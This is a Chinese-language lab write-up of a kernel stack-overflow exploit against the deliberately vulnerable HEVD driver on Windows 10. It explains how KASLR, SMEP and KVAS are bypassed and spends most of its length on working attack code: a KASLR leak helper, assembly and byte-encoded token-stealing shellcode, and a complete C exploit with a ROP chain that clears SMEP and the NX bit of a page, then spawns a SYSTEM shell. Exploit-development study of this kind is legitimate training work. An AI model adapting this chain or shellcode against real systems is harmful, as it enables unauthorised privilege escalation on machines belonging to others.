

<!-- more -->

# windows kernel

## HEVD--栈溢出漏洞实现提权-1

### environment

实验机器：windows 10 ltsc 2021 19044.6575 (Hyper-V 虚拟机)

最终目标：本地提权 (LPE) 至 `NT AUTHORITY\SYSTEM`



### 遇到的保护措施及绕过方案

#### 1. KASLR (内核地址空间布局随机化)

* **原理** ：系统启动时随机加载内核模块（如 `ntoskrnl.exe`）的基址，导致硬编码地址失效。
* **绕过手段** ： **信息泄露 (Info Leak)** 。
* **实现** ：利用 Windows API `EnumDeviceDrivers` 获取内核模块基址。

```c
#ifndef KASLR_H
#define KASLR_H
#include <windows.h>
#include <psapi.h>
#include <stdio.h>
#include <string.h>
// 自动链接 Psapi.lib，免去手动配置 VS 属性的麻烦
#pragma comment(lib, "psapi.lib")
// 获取内核模块基址的辅助函数
// 使用 static 关键字防止在多个 .c 文件引用时出现重定义错误
static unsigned long long GetKernelModuleAddress(const char* targetModuleName) {
    LPVOID drivers[1024];
    DWORD cbNeeded;
    int cDrivers, i;
    unsigned long long address = 0;
    // 1. 获取所有驱动的加载地址列表
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        cDrivers = cbNeeded / sizeof(drivers[0]);
        // 2. 遍历列表，查找名字匹配的驱动
        for (i = 0; i < cDrivers; i++) {
            char szDriver[MAX_PATH];
            // 获取驱动的基础名称 (例如 ntoskrnl.exe)
            if (GetDeviceDriverBaseNameA(drivers[i], szDriver, sizeof(szDriver) / sizeof(szDriver[0]))) {
                // 不区分大小写比较
                if (_stricmp(szDriver, targetModuleName) == 0) {
                    address = (unsigned long long)drivers[i];
                    // 这里可以注释掉打印，以免干扰 EXP 的输出
                    // printf("[+] Found %s at address: 0x%llx\n", szDriver, address);
                    break; 
                }
            }
        }
    }
    else {
        printf("[-] EnumDeviceDrivers failed or buffer too small.\n");
    }
    return address;
}
#endif // KASLR_H
```

### 2. SMEP (Supervisor Mode Execution Prevention)

* **原理** ：CR4 寄存器第 **20** 位置 1。禁止 Ring 0 (内核) 执行 Ring 3 (用户) 页面的代码。
* **尝试过的手段** ：ROP 修改 CR4 ( `mov cr4, rcx` )。
* **局限性** ：虽然关闭了硬件 SMEP，但无法绕过 KVAS。

### 3. KVAS (内核页表隔离 **Kernel** **Virtual** **Address** **Shadow**)

* **原理** ：开启KVAS时，应用程序会有两个CR3，即有PCB.DirectoryTableBase和PCB.UserDirectoryTableBase两个域。其中DirectoryTableBase域可以理解为内核CR3，能够访问内核物理页，而ring3的Cr3（UserDirectoryTableBase）只映射了内核的KVASCODE区段的物理页（少数r3进入r0的入口），而没有映射其他区段的，因此通过ring3的Cr3寻找内核TEXT段的物理页，最多只能找到PPE，而从PDE开始就没有映射了。
* **遇到的坑** ：

1. 直接跳转用户态 Shellcode -> `Access Violation (0xC0000005)` (因为找不到页面)。

* **最终绕过手段** ： **PTE 篡改 (PTE Manipulation)** 。
* **思路** ：不回用户态，而是将 Shellcode 搬运到内核空间。
* **目标** ：`KUSER_SHARED_DATA` (`0xFFFFF78000000000`)。用户空间和内核空间的共享区域，地址**固定**，内核程序对这块共享区域有**可读**、**可写**的权限，用户程序对这块共享区域只有**只读**的权限。
* **操作** ：利用 ROP 修改该页面的  **PTE (页表项)** ，清除 **NX (No-Execute)** 位。

#### PTE 权限位 (`_MMPTE_HARDWARE`)以及地址计算

PTE 本质上是一个 64位 (8字节) 的数值。我们需要精准控制其中的某一位。

**PTE 关键位布局 (Bit Map):**

```
1: kd> dt nt!_MMPTE_HARDWARE
   +0x000 Valid            : Pos 0, 1 Bit
   +0x000 Dirty1           : Pos 1, 1 Bit
   +0x000 Owner            : Pos 2, 1 Bit
   +0x000 WriteThrough     : Pos 3, 1 Bit
   +0x000 CacheDisable     : Pos 4, 1 Bit
   +0x000 Accessed         : Pos 5, 1 Bit
   +0x000 Dirty            : Pos 6, 1 Bit
   +0x000 LargePage        : Pos 7, 1 Bit
   +0x000 Global           : Pos 8, 1 Bit
   +0x000 CopyOnWrite      : Pos 9, 1 Bit
   +0x000 Unused           : Pos 10, 1 Bit
   +0x000 Write            : Pos 11, 1 Bit
   +0x000 PageFrameNumber  : Pos 12, 36 Bits
   +0x000 ReservedForHardware : Pos 48, 4 Bits
   +0x000 ReservedForSoftware : Pos 52, 4 Bits
   +0x000 WsleAge          : Pos 56, 4 Bits
   +0x000 WsleProtection   : Pos 60, 3 Bits
   +0x000 NoExecute        : Pos 63, 1 Bit
```

| **位 (Bit)**   | **名称**            | **说明**                    | **EXP 关注点**               |
| -------------------- | ------------------------- | --------------------------------- | ---------------------------------- |
| **63**(最高位) | **NX (No-Execute)** | **1=禁止执行** , 0=允许执行 | **攻击目标！我们要把它置 0** |
| **12-62**      | PFN                       | 物理页帧号 (实际物理地址)         | 动了就找不到物理内存了             |
| **2**          | U/S (User/Supervisor)     | 0=内核页, 1=用户页                | 保持 0 (内核页)                    |
| **1**          | R/W (Read/Write)          | 1=可写, 0=只读                    | 保持 1 (我们需要写入 Shellcode)    |
| **0**          | **P (Present)**     | **1=页面有效** , 0=无效     | 置 0 会直接缺页蓝屏                |

**PTE 地址计算公式：**

在 Windows x64 中，页表本身也映射在虚拟内存中。计算公式如下：

$$
\text{PTE\_Addr} = \text{PTE\_BASE} + (\text{VirtualAddress} \gg 9) \times 8
$$

或者用位运算优化版（我们在 EXP 中用的）：

$$
\text{PTE\_Addr} = \text{PTE\_BASE} + ((\text{VirtualAddress} \gg 9) \ \& \ 0x7FFFFFFFF8)
$$

**Win10 1607 (RS1) 及之后** ：为了安全，微软引入了  **页表基址随机化** 。

**原理** ：PML4 表（顶级页表）有 512 个条目。系统启动时，随机选择一个条目（例如第 `idx` 项）指向 PML4 自身。

**绕过随机化**：利用 `MiGetPteAddress`

```
.text:0000000140298780 MiGetPteAddress proc near               ; CODE XREF: MiPfPrepareSequentialReadList+2D0↓p
.text:0000000140298780                                         ; MiPfPrepareSequentialReadList+2DB↓p ...
.text:0000000140298780                 shr     rcx, 9
.text:0000000140298784                 mov     rax, 7FFFFFFFF8h
.text:000000014029878E                 and     rcx, rax
.text:0000000140298791                 mov     rax, 0FFFFF68000000000h ; 这里的立即数就是动态的 PTE_BASE
.text:000000014029879B                 add     rax, rcx
.text:000000014029879E                 retn
.text:000000014029879E MiGetPteAddress endp
```

### 4. 提权手段：Token Stealing (令牌窃取)

**原理** ：遍历系统进程链表，找到 System 进程 (PID 4)，将其 Token 复制给当前进程。

 **Shellcode 逻辑** ：

1. 获取当前进程 `_EPROCESS`。
2. 遍历 `ActiveProcessLinks` 链表。
3. 匹配 `UniqueProcessId == 4`。
4. 读取 System Token，写入当前进程的 Token 字段。

```shell
start:
	xor rax, rax
	mov rax, [gs:rax + 188h]		; gs[0] == KPCR, Get KPCRB.CurrentThread field
	mov rax, [rax+0xb8]		; Get (KAPC_STATE)ApcState.Process (our EPROCESS)
	mov r9, rax;			; Backup target EPROCESS at r9

	; loop processes list
	mov rax, [rax + 0x448]	; +0x448 ActiveProcessLinks : _LIST_ENTRY.Flink; Read first link
	mov rax, [rax]			; Follow the first link
system_process_loop:
	mov rdx, [rax - 0x8]	; ProcessId
	mov r8, rax;			; backup system EPROCESS.ActiveProcessLinks pointer at r8
	mov rax, [rax]			; Next process
	cmp rdx, 4			; System PID
	jnz system_process_loop

	mov rdx, [r8 + 0x70]
	and rdx, 0xfffffffffffffff8			; Ignore ref count
	mov rcx, [r9 + 0x4b8]
	and rcx, 0x7
	add rdx, rcx				; put target's ref count into our token
	mov [r9 + 0x4b8], rdx		; rdx = system token; KPROCESS+0x4b8 is the Token, KPROCESS+0x448 is the process links - 0x70 is the diff

	;db 0xcc
ret_to_usermode:
	;sti
	mov rax, [gs:0x188]		; _KPCR.Prcb.CurrentThread
	;mov cx, [rax + 0x1e4]		; KTHREAD.KernelApcDisable
	;inc cx
	;mov [rax + 0x1e4], cx
	mov rdx, [rax + 0x90] 	; ETHREAD.TrapFrame
	mov rcx, [rdx + 0x168]	; ETHREAD.TrapFrame.Rip
	mov r11, [rdx + 0x178]	; ETHREAD.TrapFrame.EFlags
	or r11, 0x200 ; 这样 sysret 恢复状态时，中断就会被打开
	mov rsp, [rdx + 0x180]	; ETHREAD.TrapFrame.Rsp
	mov rbp, [rdx + 0x158]	; ETHREAD.TrapFrame.Rbp
	;db 0xcc
	xor eax, eax 	; return STATUS_SUCCESS to NtDeviceIoControlFile 
	swapgs
	o64 sysret	; nasm shit
```


### 5.相关结构体

#### **_EPROCESS** (进程结构体)

* `dt nt!_EPROCESS`
* 关键偏移：
  * 0x440: `UniqueProcessId` (PID)
  * 0x448: `ActiveProcessLinks` (链表)
  * 0x4b8: `Token` (令牌)

```bash
1: kd> dt nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x438 ProcessLock      : _EX_PUSH_LOCK
   +0x440 UniqueProcessId  : Ptr64 Void
   +0x448 ActiveProcessLinks : _LIST_ENTRY
   +0x458 RundownProtect   : _EX_RUNDOWN_REF
   +0x460 Flags2           : Uint4B
   +0x460 JobNotReallyActive : Pos 0, 1 Bit
   +0x460 AccountingFolded : Pos 1, 1 Bit
   +0x460 NewProcessReported : Pos 2, 1 Bit
   +0x460 ExitProcessReported : Pos 3, 1 Bit
   +0x460 ReportCommitChanges : Pos 4, 1 Bit
   +0x460 LastReportMemory : Pos 5, 1 Bit
   +0x460 ForceWakeCharge  : Pos 6, 1 Bit
   +0x460 CrossSessionCreate : Pos 7, 1 Bit
   +0x460 NeedsHandleRundown : Pos 8, 1 Bit
   +0x460 RefTraceEnabled  : Pos 9, 1 Bit
   +0x460 PicoCreated      : Pos 10, 1 Bit
   +0x460 EmptyJobEvaluated : Pos 11, 1 Bit
   +0x460 DefaultPagePriority : Pos 12, 3 Bits
   +0x460 PrimaryTokenFrozen : Pos 15, 1 Bit
   +0x460 ProcessVerifierTarget : Pos 16, 1 Bit
   +0x460 RestrictSetThreadContext : Pos 17, 1 Bit
   +0x460 AffinityPermanent : Pos 18, 1 Bit
   +0x460 AffinityUpdateEnable : Pos 19, 1 Bit
   +0x460 PropagateNode    : Pos 20, 1 Bit
   +0x460 ExplicitAffinity : Pos 21, 1 Bit
   +0x460 ProcessExecutionState : Pos 22, 2 Bits
   +0x460 EnableReadVmLogging : Pos 24, 1 Bit
   +0x460 EnableWriteVmLogging : Pos 25, 1 Bit
   +0x460 FatalAccessTerminationRequested : Pos 26, 1 Bit
   +0x460 DisableSystemAllowedCpuSet : Pos 27, 1 Bit
   +0x460 ProcessStateChangeRequest : Pos 28, 2 Bits
   +0x460 ProcessStateChangeInProgress : Pos 30, 1 Bit
   +0x460 InPrivate        : Pos 31, 1 Bit
   +0x464 Flags            : Uint4B
   +0x464 CreateReported   : Pos 0, 1 Bit
   +0x464 NoDebugInherit   : Pos 1, 1 Bit
   +0x464 ProcessExiting   : Pos 2, 1 Bit
   +0x464 ProcessDelete    : Pos 3, 1 Bit
   +0x464 ManageExecutableMemoryWrites : Pos 4, 1 Bit
   +0x464 VmDeleted        : Pos 5, 1 Bit
   +0x464 OutswapEnabled   : Pos 6, 1 Bit
   +0x464 Outswapped       : Pos 7, 1 Bit
   +0x464 FailFastOnCommitFail : Pos 8, 1 Bit
   +0x464 Wow64VaSpace4Gb  : Pos 9, 1 Bit
   +0x464 AddressSpaceInitialized : Pos 10, 2 Bits
   +0x464 SetTimerResolution : Pos 12, 1 Bit
   +0x464 BreakOnTermination : Pos 13, 1 Bit
   +0x464 DeprioritizeViews : Pos 14, 1 Bit
   +0x464 WriteWatch       : Pos 15, 1 Bit
   +0x464 ProcessInSession : Pos 16, 1 Bit
   +0x464 OverrideAddressSpace : Pos 17, 1 Bit
   +0x464 HasAddressSpace  : Pos 18, 1 Bit
   +0x464 LaunchPrefetched : Pos 19, 1 Bit
   +0x464 Background       : Pos 20, 1 Bit
   +0x464 VmTopDown        : Pos 21, 1 Bit
   +0x464 ImageNotifyDone  : Pos 22, 1 Bit
   +0x464 PdeUpdateNeeded  : Pos 23, 1 Bit
   +0x464 VdmAllowed       : Pos 24, 1 Bit
   +0x464 ProcessRundown   : Pos 25, 1 Bit
   +0x464 ProcessInserted  : Pos 26, 1 Bit
   +0x464 DefaultIoPriority : Pos 27, 3 Bits
   +0x464 ProcessSelfDelete : Pos 30, 1 Bit
   +0x464 SetTimerResolutionLink : Pos 31, 1 Bit
   +0x468 CreateTime       : _LARGE_INTEGER
   +0x470 ProcessQuotaUsage : [2] Uint8B
   +0x480 ProcessQuotaPeak : [2] Uint8B
   +0x490 PeakVirtualSize  : Uint8B
   +0x498 VirtualSize      : Uint8B
   +0x4a0 SessionProcessLinks : _LIST_ENTRY
   +0x4b0 ExceptionPortData : Ptr64 Void
   +0x4b0 ExceptionPortValue : Uint8B
   +0x4b0 ExceptionPortState : Pos 0, 3 Bits
   +0x4b8 Token            : _EX_FAST_REF
   ...
```

#### **_KTHREAD** (线程结构体)

* `dt nt!_KTHREAD`
* 关键偏移：
  * `ApcState.Process` (指向 EPROCESS)
  * `TrapFrame` (指向中断帧)

```
   +0x090 TrapFrame        : Ptr64 _KTRAP_FRAME
   +0x098 ApcState         : _KAPC_STATE
```


#### **_KTRAP_FRAME** (中断帧)

* `dt nt!_KTRAP_FRAME`
* 关键偏移：`Rip`, `Rsp`, `EFlags`

```bash
1: kd> dt nt!_KTRAP_FRAME
   +0x000 P1Home           : Uint8B
   +0x008 P2Home           : Uint8B
   +0x010 P3Home           : Uint8B
   +0x018 P4Home           : Uint8B
   +0x020 P5               : Uint8B
   +0x028 PreviousMode     : Char
   +0x028 InterruptRetpolineState : UChar
   +0x029 PreviousIrql     : UChar
   +0x02a FaultIndicator   : UChar
   +0x02a NmiMsrIbrs       : UChar
   +0x02b ExceptionActive  : UChar
   +0x02c MxCsr            : Uint4B
   +0x030 Rax              : Uint8B
   +0x038 Rcx              : Uint8B
   +0x040 Rdx              : Uint8B
   +0x048 R8               : Uint8B
   +0x050 R9               : Uint8B
   +0x058 R10              : Uint8B
   +0x060 R11              : Uint8B
   +0x068 GsBase           : Uint8B
   +0x068 GsSwap           : Uint8B
   +0x070 Xmm0             : _M128A
   +0x080 Xmm1             : _M128A
   +0x090 Xmm2             : _M128A
   +0x0a0 Xmm3             : _M128A
   +0x0b0 Xmm4             : _M128A
   +0x0c0 Xmm5             : _M128A
   +0x0d0 FaultAddress     : Uint8B
   +0x0d0 ContextRecord    : Uint8B
   +0x0d8 Dr0              : Uint8B
   +0x0e0 Dr1              : Uint8B
   +0x0e8 Dr2              : Uint8B
   +0x0f0 Dr3              : Uint8B
   +0x0f8 Dr6              : Uint8B
   +0x100 Dr7              : Uint8B
   +0x108 DebugControl     : Uint8B
   +0x110 LastBranchToRip  : Uint8B
   +0x118 LastBranchFromRip : Uint8B
   +0x120 LastExceptionToRip : Uint8B
   +0x128 LastExceptionFromRip : Uint8B
   +0x130 SegDs            : Uint2B
   +0x132 SegEs            : Uint2B
   +0x134 SegFs            : Uint2B
   +0x136 SegGs            : Uint2B
   +0x138 TrapFrame        : Uint8B
   +0x140 NmiPreviousSpecCtrl : Uint4B
   +0x144 NmiPreviousSpecCtrlPad : Uint4B
   +0x140 Rbx              : Uint8B
   +0x148 Rdi              : Uint8B
   +0x150 Rsi              : Uint8B
   +0x158 Rbp              : Uint8B
   +0x160 ErrorCode        : Uint8B
   +0x160 ExceptionFrame   : Uint8B
   +0x168 Rip              : Uint8B
   +0x170 SegCs            : Uint2B
   +0x172 Fill0            : UChar
   +0x173 Logging          : UChar
   +0x174 Fill1            : [2] Uint2B
   +0x178 EFlags           : Uint4B
   +0x17c Fill2            : Uint4B
   +0x180 Rsp              : Uint8B
   +0x188 SegSs            : Uint2B
   +0x18a Fill3            : Uint2B
   +0x18c Fill4            : Uint4B
```


### 6. 调试命令(WinDbg)

| **场景**     | **命令**             | **说明**                    |
| ------------------ | -------------------------- | --------------------------------- |
| **环境配置** | `bcdedit /dbgsettings`   | 查看/设置调试 IP 和端口           |
| **崩溃分析** | `!analyze -v`            | 蓝屏后查看原因 (BugCheck Code)    |
| **寄存器**   | `r cr4`                  | 查看 SMEP/SMAP 状态 (Bit 20/21)   |
| **寄存器**   | `rdmsr 0xC0000102`       | 查看 Kernel GS Base               |
| **内存查看** | `dq <addr> L10`          | 以 64 位格式查看内存              |
| **反汇编**   | `u <addr> L10`           | 查看地址处的汇编代码              |
| **结构体**   | `dt nt!_EPROCESS <addr>` | 解析进程结构体                    |
| **Token**    | `!token <addr>`          | 解析 Token 权限 (看是否为 System) |
| **页表**     | `!pte <addr>`            | 查看虚拟地址的页表属性 (NX/RW)    |
| **断点**     | `bp <addr>`              | 下断点                            |
| **断点**     | `bl`/`bc *`            | 列出断点 / 清除所有断点           |
| **符号搜索** | `x nt!Ki*Shadow`         | 搜索内核符号 (如 KPTI 相关)       |

### EXP

```c
#include <windows.h>
#include <stdio.h>
#include "kwin.h"
// 驱动设备名称
#define DEVICE_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
// IOCTL 码：0x222003 
#define HEVD_IOCTL_STACK_OVERFLOW 0x222003

unsigned char shellcode[] = {
  0x48, 0x31, 0xC0, 0x65, 0x48, 0x8B, 0x80, 0x88, 0x01, 0x00, 
  0x00, 0x48, 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x49, 0x89, 
  0xC1, 0x48, 0x8B, 0x80, 0x48, 0x04, 0x00, 0x00, 0x48, 0x8B, 
  0x00, 0x48, 0x8B, 0x50, 0xF8, 0x49, 0x89, 0xC0, 0x48, 0x8B, 
  0x00, 0x48, 0x83, 0xFA, 0x04, 0x75, 0xF0, 0x49, 0x8B, 0x50, 
  0x70, 0x48, 0x83, 0xE2, 0xF8, 0x49, 0x8B, 0x89, 0xB8, 0x04, 
  0x00, 0x00, 0x48, 0x83, 0xE1, 0x07, 0x48, 0x01, 0xCA, 0x49, 
  0x89, 0x91, 0xB8, 0x04, 0x00, 0x00, 0x65, 0x48, 0x8B, 0x04, 
  0x25, 0x88, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x90, 0x90, 0x00, 
  0x00, 0x00, 0x48, 0x8B, 0x8A, 0x68, 0x01, 0x00, 0x00, 0x4C, 
  0x8B, 0x9A, 0x78, 0x01, 0x00, 0x00, 0x49, 0x81, 0xCB, 0x00, 
  0x02, 0x00, 0x00, 0x48, 0x8B, 0xA2, 0x80, 0x01, 0x00, 0x00, 
  0x48, 0x8B, 0xAA, 0x58, 0x01, 0x00, 0x00, 0x31, 0xC0, 0x0F, 
  0x01, 0xF8, 0x48, 0x0F, 0x07, 0xFF
};
#define POP_RCX_RET 0x2079ac
#define POP_RAX_RET 0x201862
#define POP_RDX_RET 0x3d0dea
#define POP_R8_RET 0x201861
#define MOV_CR4_RCX_RET 0x3a0397
#define mov_rax_qword_ptr_rcx_ret 0x32c1b0
#define add_rax_qword_ptr_rcx_0xa0_ret 0x649ce1
#define mov_byte_ptr_rax_cl_ret 0x49cadd
#define RET 0x20003e
int main() {
    HANDLE hDevice;
    DWORD bytesReturned;
    BOOL success;

    // 1. 获取驱动句柄
    printf("[*] Opening Driver...\n");
    hDevice = CreateFileA(
        DEVICE_NAME,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        NULL
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open driver! Error: %d\n", GetLastError());
        return 1;
    }
    printf("[+] Driver opened successfully!\n");

    // 2. 准备内存存放 Shellcode
    LPVOID lpPayload = VirtualAlloc(
        NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
  
    if (!lpPayload) {
        printf("[-] Failed to allocate memory for shellcode!\n");
        return 1;
    }
  
    // 把 Shellcode 复制进去
    memcpy(lpPayload, shellcode, sizeof(shellcode));
    printf("[+] Shellcode located at: 0x%p\n", lpPayload);
  
    LPVOID userBuffer = VirtualAlloc(
        NULL,
        0x900,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );

    memset(userBuffer, '\x41', 0x818);
    unsigned long long kernelbase=GetKernelModuleAddress("ntoskrnl.exe");
    unsigned long long ExpAllocatePoolWithTagFromNode=kernelbase+0x2BC81F;
    unsigned long long memmove=kernelbase+0x413540;
    unsigned long long MiGetPteAddress=kernelbase+0x298780;
    unsigned long long pte_addr=(0xFFFFF78000000000 >> 9) & 0x7FFFFFFFF8;
    DWORD64* rop = (DWORD64*)((DWORD64)userBuffer + 0x818);
    int index = 0;
    *(rop + index++) = POP_RCX_RET+kernelbase;
    *(rop + index++) = 0xb50ef8 ^ (1UL << 20) ^ (1UL << 21);
    *(rop + index++) = MOV_CR4_RCX_RET+kernelbase;
    *(rop + index++) = POP_RAX_RET+kernelbase;
    *(rop + index++) = pte_addr+0x7;
    *(rop + index++) = POP_RCX_RET+kernelbase;
    *(rop + index++) = MiGetPteAddress+0x13-0xa0;
    *(rop + index++) = add_rax_qword_ptr_rcx_0xa0_ret+kernelbase; //add rax, [rcx+0xa];ret;
    *(rop + index++) = POP_RCX_RET+kernelbase;
    *(rop + index++) = 0;
    *(rop + index++) = mov_byte_ptr_rax_cl_ret+kernelbase;
    *(rop + index++) = POP_RCX_RET+kernelbase;
    *(rop + index++) = 0xFFFFF78000000000+0x720;
    *(rop + index++) = POP_RDX_RET+kernelbase;
    *(rop + index++) = (DWORD64)shellcode;
    *(rop + index++) = POP_R8_RET+kernelbase;
    *(rop + index++) = 0x200;
    *(rop + index++) = memmove;
    *(rop + index++) = RET+kernelbase;
    *(rop + index++) = 0xFFFFF78000000000+0x720;

    printf("[*] Triggering Stack Overflow...\n");
    printf("    Buffer Size: %d\n", 0x900);
    printf("    Overwriting RET with: 0x%p\n", lpPayload);

    // 4. 发送 IOCTL 触发漏洞
    success = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_STACK_OVERFLOW,
        userBuffer,
        0x900,
        NULL,
        0,
        &bytesReturned,
        NULL
    );

    if (!success) {
        printf("[-] DeviceIoControl failed! Error: %d\n", GetLastError());
    } else {
        printf("[+] Payload sent!\n");
    }
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    si.cb = sizeof(si);
  
    // 此时已经是 System 权限，再创建的子进程也是 System
    CreateProcessA(NULL, "C:\\Windows\\System32\\cmd.exe", NULL, NULL, TRUE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
    CloseHandle(hDevice);
    return 0;
}
```
